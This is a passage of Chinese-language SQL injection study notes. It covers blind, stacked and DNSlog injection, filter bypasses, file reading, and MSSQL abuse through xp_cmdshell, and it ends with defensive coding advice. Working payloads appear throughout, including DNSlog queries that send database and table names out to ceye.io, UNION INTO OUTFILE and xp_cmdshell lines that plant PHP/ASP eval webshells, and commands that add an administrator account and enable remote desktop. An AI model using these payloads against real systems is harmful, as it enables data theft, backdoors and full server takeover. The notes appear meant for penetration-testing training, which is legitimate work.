      4. 因为在修改密码的时候，只需要重新输入密码，而用户名是数据库内部直接调用匹配的。此时没有对数据库中的内容进行防护（特殊字符转义）而是直接调用，因此用户名就成功的成为注入语句注入到修改密码的SQL语句中。因为在匹配查询时，username在password前面导致password被注释掉（所以原密码输入不影响结果），所以查询时只需要满足username=admin即可。所以能成功修改管理员账户密码

# 伪静态注入

1. 静态、动态、伪静态网站是什么：

   1. 静态网站是指网站的内容是固定的，不会根据用户的请求和交互进行实时更新和变化的网站。这类网站通常由一系列的静态HTML页面组成，每个页面都包含固定的内容和布局。当用户访问静态网站时，服务器会直接将相应的HTML页面发送给用户的浏览器进行显示。静态网站的内容更新通常需要手动编辑HTML文件并重新上传到服务器上。静态网站url有一个特点：其url地址结尾是`.html`或`.htm`

   2. 动态网站是指网站的内容可以根据用户的请求和交互进行实时更新和变化的网站。这类网站通常依赖于后端服务器和数据库来存储和管理网站内容。当用户访问动态网站时，服务器会根据用户的请求动态地生成HTML页面，并将其发送给用户的浏览器进行显示。动态网站可以实现复杂的功能和交互，如用户登录、在线购物、内容管理系统等。

   3. 伪静态网站是指使用动态网页技术生成的网址，但在表现形式上看起来像静态网站。这种技术通过服务器端程序对页面地址进行重写处理，实现对动态网站的访问，呈现对应的静态页面效果。然而，实质上的内容仍然是动态生成的，只是URL结构被改写成静态形式。这种网站相对动态网站而言更安全，更不易被攻击。伪静态网站有个特点：虽然和静态网站一样地址结尾是`.html`或`.htm`，但是其地址中通常会有一些数字作为id（或其他标志），然后通过id值去访问动态php文件或其他动态文件，和数据库进行交互。

   4. 如果找到了伪静态网站其网址的动态url，同样可以通过其访问该网站，所以也可以对其动态网址进行注入。

      >动态链接:
      >
      >- `http://192.168.0.26/pikachu/vul/sqli/sqli_str.phpname=vince&submit=%E6%9F%A5%E8%AF%A2`
      >- `https://search.jd.com/search?keyword=%E6%89%8B%E6%9C%BA&wq=%E6%89%8B%9C%BA&ev=5_122671%5E`
      >
      >
      >
      >静态链接:
      >
      >- `http://127.0.0.1:8000/jaden/index.html`
      >- `http://127.0.0.1:8000/jaden/person.html`
      >
      >
      >
      >伪静态链接:
      >
      >- `http://127.0.0.1:8000/jaden/1/wei_news.html`
      >- `http://127.0.0.1:8000/jaden/news/1.html`
      >
      >
      >
      >同一个网站的连接：
      >
      >- 动态访问链接:`http://192.168.61.149/forum.php?mod=viewthread&tid=1&extra=page%3D1`
      >
      >- 伪静态访问链接:`http://192.168.61.149/thread-1-1-1.html`
      >  - 伪静态访问链接（包含SQL注入尝试）:`http://192.168.61.149/thread-1-1'or 1=1#-1.html`
      >
      >- 伪静态转动态配置规则（非直接URL，但包含URL重写逻辑）:
      >
      >`rewrite ^([^\.])/thread-([0-9]+)-([0-9]+)([0-9]+)\.html$ $1/forum.php?mod=viewthread&tid=$2&extra=page%3D$4&page=$3 last;`
      >
      >- 伪静态网址中的三个1分别对应动态网址中三个参数tid、extra、page的值

2. 注入语句：直接在伪静态网址的数字后面注入，数字和字符型payload都可以尝试。如果配置规则的正则表达式写的不好，那么就会将注入语句匹配进去，成功注入到动态url中。

# 盲注

1. 无回显：页面没有响应或者没有变化或直接转到404等
2. 有些网站的防护手段就是通过无回显来实现的。如：限制响应数据只能是一条，超过一条则无回显，此时即使注入成功，也无回显；检测到注入语句，不返回报错信息（无回显）
3. 无回显有两种情况：一种是：没有注入点；另一种是：有注入点，注入成功了，但响应时限制了，无回显。
4. 盲注分为两大类：
   1. 基于布尔型的盲注
   2. 基于时间型的盲注
5. 因为手工盲注是很费时费力的，所以一般使用工具进行盲注
6. 前提条件，已知一个查询信息。

## Boolean（布尔）注入攻击

1. 原理：通过不断注入`已知信息' and 判断语句#`，通过判断语句尝试，正确则判断中的信息是正确的；否则，反之。如果正常响应查询内容，则说明判断语句是正确的，知道猜测的信息是正确的。如果不响应或响应错误，则猜测信息是错误的，继续猜测。
2. 注入语句（假设已知用户名vince）：
   1. 猜测数据库名的长度：`vince' and length(database())=7#`
   2. 猜测数据库名的字符：`vince' and ascii(substr(database(),1,1))=112#`或`vince' and ascii(substr(database(),1,1))>112#`
   3. 函数解析：
      1. `substr(字符串,a,n)`：提取字符串从a位置开始的n个字符（第一个字符是位置1）
      2. `ascii(字符)`：将字符转化为对应的ascii值
   4. 如果响应出该用户的信息，则猜测正确；如果响应不存在该用户（判断语句错误，因为是and连接，所以是相当于用户名输入错误），则猜测错误。重复猜测知道猜测这正确
3. 可以通过注入语句猜测出库名、表名、列名、字段名等信息

## Time（时间）注入攻击

1. 当正常输入无回显，普通注入、报错注入、布尔盲注都无法生效始终无回显时，可以尝试时间盲注。
2. 通过sleep函数判断是否有注入点。注入语句（已知用户名vince）：`vince' and sleep(5)`
   1. sleep函数：`sleep(a)`延迟a秒响应
   2. 如果比正常输入响应慢了许多，说明此处有注入点
4. 原理：通过响应是否延迟判断if语句中的判断是否正确，和布尔类似，只不过是通过响应时间作为判断标准
5. 注入语句（假设已知用户名vince）：
   1. 猜测数据库名的长度：`vince' and if(length(database()=7),sleep(3),1)#`
   2. 猜测数据库名的字符：`vince' and if(ascii(substr(database(),1,1))=112,sleep(3),1)#`或`vince' and if(ascii(substr(database(),1,1))>112,sleep(3),1)#`
   3. if语句：`if(判断语句,语句1,语句2)`。判断语句正确，执行语句1；判断语句错误，执行语句2。
   4. 因为页面本来就无回显，所以if中的语句2可以是`1`也可以是其他
   5. 如果sleep函数被防御了，也可以通过benchmark函数实现延迟效果。
      1. `benchmark(n,语句1)`：语句1执行n次
      2. 注入语句：`vince' and if(length(database()=7),benchmark(1000000000,md5(1)),1)#`
   6. `sleep`、`benchmark`等函数被禁：因为mysql不区分大小写，所以可以通过修改函数字母的大小写来绕过防护，如：`sLeeP`、`BencHmaRk`等

# Stack注入攻击

1. 需要后台代码是可以执行多条sql语句的，php中是使用PDO方式执行多条语句。堆叠注入攻击可以执行多条语句，多语句之间以分号隔开。利用这个特点可以在后面的语句中构造自己要执行的语句。
2. 堆叠注入的使用条件十分有限，一旦能被使用，将对数据安全造成重大威胁。因为其可以执行任何语句，甚至可以删除整个数据库
3. 堆叠注入只能返回第一条查询信息，不返回后面的信息。因此，堆叠注入第二个及以后的语句产生的错误或结果都无法看到（无回显）。所以在读取数据的时候，建议使用union联合注入。同时在使用堆叠注入之前，也是需要知道一些数据库相关的信息的，例如表名、列名等信息。
4. 获取数据库、表（单引号闭合）
5. 限制：堆叠注入的局限性在于并不是每个环境下都可以执行，可能受到API（即PHP中传输并执行sql命令的函数）或数据库引擎不支持的限制
6. mysql在有些API支付堆叠注入；sqlserver都支持堆叠注入；oracle不支持堆叠注入

# DNSlog注入方式

1. 当盲注也无法使用且没有回显时，我们用DNSlog注入

2. 提供DNSlog日志记录的网址的网站

   >- http://ceye.io/
   >- http://www.dnslog.cn/

3. 原理：通过注入语句使数据库访问（发出包含数据库信息的访问请求）具备DNSlog日志记录功能的网站，通过网站的日志记录功能将数据库的访问请求记录下来。

4. 使用前提：

   1. 需要mysql用户具备读文件的权限，因为需要借助到mysql的load_file读取文件的函数。如果权限不够，不能调用该函数。其实只要mysql章配置项中开启了secure_file_priv配置，就可以通过sql语句来执行文件读取操作
   2. mysql数据库服务器要能够访问外网。因为在注入时，其实使用的是load_file函数对诸如`\\www.jaden.com`这样的url发送请求，这样的url我们称为UNC路径。

5. 注入语句：

   1. 从网站获取具有DNSlog日志记录的网址（假设是：`9fqiop.ceye.io`）
   2. 获得数据库名称：`d' and (select load_file(concat('\\\\',(select database()),'.9fqiop.ceye.io\\abc')))`或`d' and (select load_file(concat('//',(select database()),'.9fqiop.ceye.io/abc')))`
      1. 用concat语句将数据库信息和网址拼接起来作为请求发送过去，连接符号是`.`
      2. `\`和`/`都可以，只不过是`\`时，每个`\`的前面要多添加一个`\`作为转义字符将`\`转义成普通文本而不是作为特殊字符
   3. 获取表名：`d' and (select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.9fqiop.ceye.io\\abc')))`
      1. 通过修改limit后面的数字即可查出所有表名
   4. 获取字段名：`d' and (select load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema=database() and table_name='member' limit 0,1),'.9fqiop.ceye.io\\abc')))`
      1. 通过修改limit后面的数字即可查出所有字段名


# 中转注入

1. 隐藏地址
2. 对注入语句统一加工

# 前端代码防御和绕过

1. 网页前端的防护手段一般是：js格式校验和对数据进行js加密。
2. js格式校验：当提交数据不符合该处提交格式时，数据在前端就会被js代码阻止，都不会发送到后台数据库。所以首先我们要输入符合格式的数据，再用burp抓包，此时便可随便修改数据，添加注入语句
3. js加密：在网页前端代码发送请求给后台数据库时，其一般会对发送数据进行加密操作。我们只能通过阅读网页前端的js文件，找出其加密手段，才能进行注入语句拼接。同时为保护前端js文件，通常会对js文件进行混淆和压缩。此时我们需要掌握**js加解密**和**js逆向**才能解决 

# 后台代码防御和绕过

>`$uname  = $_GET('username');`
>
>情况一：判断关键字
>          ```      php
>if（'select' in $uname){
>	echo '不要搞事情'
>}
>          ```
>
>情况二：替换关键字
>将`select * from users`中的`select`替换为空字符串
>`echostr_replace("select","","select * from users");`
>
>情况三：直接强行将用户提交的id数据转换为整型
>```php
>$id =$_POST('id');
>$id_int =intval($id);
>select * from users where id=$id_int
>```
>
>情况四：魔术符号，将用户提交的数据中的引号自动在前面加上\进行转义
>`magic_quotes_gpc=on`
>或者使用了`adds1ashes($id)`

1. 情况一绕过：大小写绕过：`SELECT * FROM USERS；`
2. *情况二绕过：双写：`selselectect* * from users;`，其实st_replace只替换了一次select还剩下一个select
3. 情况三：强防御，这种的很难绕过了，因为我们写的注入语句都是字符串，针对提交数据为纯数字的时候，这种防御就很难绕过了，但是好多时候，用户正常向后台提交的数据都是非数字类型的，这样的话就不会进行intval的加工，就可以尝试其他注入手法。
4. 情况四：开启了魔术符号转义功能，这种的参看我们前面说的宽字节注入，其他方法很难绕过，但是这里有个点，就是如果对id=1这种数字型的注入，还是有其他办法的，比如`id=1 and select * from users;`这样没有单引号的注入语句。

# 读取服务器敏感文件数据

1. 两个前提条件：
   1. 敏感文件存放的真实路径
   2. 数据库开启了读取文件的功能（用到`load_file`函数）
2. 注入语句：`d' union select load_file("C:\\user\\1.txt")#`。注意：load_file函数使用`\\`作为路径分隔符且union联合查询前后`select`查询的列数要相同，差的列数用数字补齐。eg:`d' union select 1, load_file("C:\\user\\1.txt")#`

# Getshell

## 木马介绍

1. 木马介绍,木马其实就是一段程序，这个程序运行到目标主机上时，主要可以对目标进行远程控制、盗取信息等功能，一般不会破坏目标主机，当然，这也看黑客是否想要搞破坏。
2. 按照功能分类：远控型、破坏型、流氓软件型、盗取信息型等等
3. 按照连接方式分类：正向连接、反向连接、无连接等
4. 按照功能大小分类：大马、小马、一句话木马。不同的开发语言，都可以写出这些木马程序，网上也能找到很多别人写好的木马程序掌来使用，但是使用别人的木马程序要小心程序中的后门，因为你的劳动成果,很有可能被后门窃取了。

## 一句话木马的简单使用

1. 这里简单说一下php的一句话木马，然后通过sql注入将一句话木马写入目标服务器，再通过木马利用工具连接木马程序从而达到控制目标主机的效果。
2. 一句话木马有四大利用工具：冰蝎、蚁剑、菜刀、哥斯拉（现在常用的是：冰蝎、蚁剑（antsword，github上下载））。
3. 一句话木马使用操作：
   1. 将一句话木马（php文件或其他文件）保存到目标主机。常用的一句话木马的php语句：`<?php @eval($_POST['jaden']);?>`，此处的jaden是密码，在后面使用蚁剑运行这个木马时要用到。
   2. 在蚁剑中创建该文件所在地址的url地址
   3. 运行蚁剑，即可获取目标主机的数据，以及shell（命令终端）

## 通过注入点写入木马程序的前提条件

1. mysql开启了`secure_file_priv=""`的配置，即允许sql语句进行文件读写的操作
2. 知道网站代码的真实物理路径
3. 物理路径具备写入权限
4. 最好是mysql的root用户，这个条件非必须，但是有最好

## 注入点的注入语句

1. `' union select "<?php @eval($_POST['jaden']);?>",2 into outfile "C:\\phpStudy\\PHPTutorial\\www\\jaden.php" #`
   1. 其中`into outfile`的作用是写入文件，如果没有该文件则创建一个该文件。
   2. `"C:\\phpStudy\\PHPTutorial\\www\\jaden.php"`是写入文件地址，即网站代码所在的真实物理地址

## 获取站点真实物理路径的各种方法

1. 收集站点敏感目录，比如phpinfo.php探针文件（其中会包含网址的许多信息包括真实物理路径）是否可以访问到
2. 站点网址输入一些不存在的网址或者加一些非法参数数据，让网站报错，看错误信息中是否存在路径信息
3. 指纹信息收集：
   1. nginx默认站点目录：/usr/share/nginx/html，配置文件路径：/etc/nginx/nginx.conf
   2. apachre默认站点目录：/var/www/html
4. 通过站点其他漏洞来获取配置信息、真实物理路径信息，比如如果发现远程命令执行漏洞，针对php的站点，直接执行一个phpinfo()函数，可以看到phpinfo.php所展示的各种信息等等。（phpinfo.php探针文件里面就包含phpinfo()函数）

# access数据库

1. 如果找到表的真实物理路径，可以通过在浏览器中输入路径，直接将其下载下来
2. access数据库的注入语句一般不用加注释符，因为其后台代码中接收参数的后面一般其他语句
3. 主要靠暴力猜解：
   1. 猜表名(users)：`and exists(select * from users)`
   2. 猜字段名（列名: username）：`and exists(select username from users)`
   3. 存在则exists函数返回1
4. access数据库对应mysql的关键字：`top`对应`limit`，`len`对应`length`

# mssql（sqlserver）数据库

1. 主要使用报错注入

2. 他对数据类型要求更严格，不允许不同类型进行比较

3. mssql有三类权限：sa（sysadmin）、db_owner、public，sa是最高权限

4. sysobjects是mssql自带的系统表，可以通过此表来判断是否是mssql数据库。

   ```sql
   and exists(select * from sysobjects)
   ```

## sa权限

1. 如何判断当前用户是否具备sa权限：`and 1=(select IS_SRVROLEMEMBER('sysadmin'))`
2. 判断是否开启xp_cmdshell权限：`and 1=(select count(*) from master.dbo.sysobjects where name='xp_cmdshell')`
   1. xp_cmdshell是mssql数据库的扩展存储功能，这个功能可以直接执行操作系统的指令（ipconfig、pwd等），默认情况下这个功能是禁用的。这个功能只能是sa这样的权限用户才能开启，db_owner、public都不能开启
   2. 报错则没有开启
   3. 恢复xp_cmdshell：`EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--`
3. 开启xp_cmdshell权限后：
   1. 添加jaden账户：`;exec master..xp_cmdshell 'net user jaden 123456 /add'`，其中13456是密码
   1. 将jaden账号添加到管理员组：`;exec master..xp_cmdshell 'net localgroup jaden 123456 /add'`，123456是密码
   1. 开启3389远程连接端口：既然已经是管理员组的用户，那么开启3389端口就可以远程控制别人的电脑。`;exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\TerminalServer','fDenyTSConnections','REG_DWORD',0`

## db_owner权限

1. 查看当前网站是否为db_owner权限；`and 1=(SELECT IS_MEMBER('db_owner'));--`
2. 同样，如果网页没有开启xp_cmdshell功能，是无法getshell的
3. 寻找网页真实路径（当前网址：`192.168.31.133/sqlserver/1.aspx?xxser=1`）：
   1. 通过报错（注入语句查询）

      ```sql
      ;drop table black;create Table black(result varchar(7996) bull, id in not null identity (1,1))--           #删除black表，在创建black表
      insert into black exec master..xp_cmdshell 'dir /s c:\1.aspx'--           #向black表中插入'dir /s c:\1.aspx'这个系统指令的执行结果，1.aspx是当前网址文件
      and (select result from black where id=4)>0--   #查找black表中的数据，即网站真实路径
      ```
   2. 在百度或其他网页上搜索该网页的敏感信息
4. 一句话木马获得getshell：

   1. 向真实物理路径写入一句话木马程序：`%20;exec%20master..xp_cmdshell%20'Echo%20"<%eval%20request("jaden")%>"%20>>%20c:\www\wwwroot\sqlserver\muma.asp'--`（url编码格式），'c:\www\wwwroot\sqlserver'是网站的真实物理路径，muma.asp是存放一句话木马的文件。
   2. 用蚁剑控制该目标主机

## public权限

1. 获取当前网站数据库名称：`and db_name()=0--`
2. 获取mssql所有数据库名：
   1. `and 1=(select db_name())--+`
   2. `and 1=(select db_name(1))--+`
   3. `and 1=(select db_name(2))--+`
   4. 将数字已知枚举下去即可
3. 获取当前数据库所有表名：
   1. `select top 1 name from 当前数据库名.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (select top i name from 当前数据库名.sys.all_objects where type='U' AND is_ms_shipped=())`，通过修改i值查看不同表名
4. 获取表名和字段名：
5. 获取字段内容

# mysql的版本区别

1. mysql5.0以及5.0以上的版本都存在一个系统自带的系统数据库，叫做：information_schema，mysql5.0以下没有information_schema库，只能通过暴力猜解的方式来获取数据，information_schema库里面包含了很多表，其中这几张表：schemata、tables、columns，这三张表依次分别存放着字段：（schema_name-库名）、（table_name-表名、table_schema-库名）、（column_name-字段名、table_name-表名、table_schema-库名），其次就是5.0以上都是多用户多操作，5.0以下是多用户单操作。
2. mysql5.7和mysql8的区别：（先作为了解）
   1. 创建用户和授权：
      1. mysql5.7可以一句话搞定：`grant all privileges on *.* 'user'@'%' identified by '123456';`
      2. mysql8必须分开做：`create user 'user'@'%' identified by '123456';`，`grant all privileges on *.* to 'user'@'%';`
   2. table函数
      1. table函数为MYSQL8版本中新增的函数，其作用与select类似。
      2. `table users;`等同于：`select * from users;`
      3. 但是table查询时，显示的始终是表的所有列，而且不可以用where字句来限定某个特定的行。
   3. values函数：`select * from user union VALUES Row(2,3);`等同于`select * from user union select 2,3;`

# sql注入防护

1. 所有数据库的防护手段基本都一样，就是对用户提交的数据作严格的过滤

2. 方式

   1. 对提交的数据进行数据类型判断，比如id值就是数字：`is_numeric($id)`

   2. 对提交的数据进行正则匹配，禁止出现注入语句，比如union、or、and等

   3. 对提交数据进行特殊符号转义，比如单引号、双引号等，用addslash等函数加工一下

   4. 不使用sql语句拼接参数的方式来执行sql语句，而是用参数化查询，也叫做参数绑定的方式，对提交的参数进行预编译然后进行参数绑定，这样会将用户提交的注入语句作为参数值来处理，而不是当作sql语句执行，这样可以有效的方法sq1注入：不同语言的写法不同，但是原理相同。 

      1. `$data =Sdb->prepare('SELECT first_name,last_name FROM users WHERE user_id =(:id)LIMIT 1;');`
      2.  `$data->bindParam(':id',Sid,PDO::PARAM_INT); `
      3. `$data->execute();`

   5. 但是预编译也不能完全解决sql注入问题，比如如果查询语句中表名是动态的，也就是说表名也是用户可以提交过来的数据，根据用户提交的表名来进行不同表数据的查询，那么也会出现sql注入漏洞，因为表名不能进行预编译及参数绑定，下面就报错 

      ```sql
      $table_name='jaden';
      $data = $db->prepare('SELECT first_name,last_name FROM(:table_name) WHERE user_id =(:id)LIMIT 1;');
      #这种就需要配合白名单进行过滤：
      if($table_name =='jaden'){
       $data =$db->prepare('SELECT first_name,last_name FROM jaden WHERE user_id =(:id)LIMIT 1;'); 
       }
       elif($table_name =='wulaoban'){
       $data =$db->prepare('SELECT first_name,last_name FROM wulaoban WHERE user_id =(:id)LIMIT 1;');
       }
       else{
       echo'别乱搞!';
       }
      ```

      5. 分级管理：用户的权限要进行严格控制和划分，服务端代码连接数据库使用的用户禁止使用root等高权限用户。比如对用户进行分级管理，严格控制用户的权限，对于普通用户，禁止给予数据库建立、删除、修改等相关权限，只有系统管理员才具有增、删、改、查的权限等等。
      6. 数据库中敏感的数据，比如用户的密码，要加密存储。
      7. 总体来说：
         1. 永远不要信任用户的输入，要对用户的输入进行校验，可以通过正则表达式，或限制长度，对特殊字符和符号进行转换等。
         2. 永远不要使用动态拼装sql,可以使用参数化的sql或者直接使用存储过程进行数据查询存取


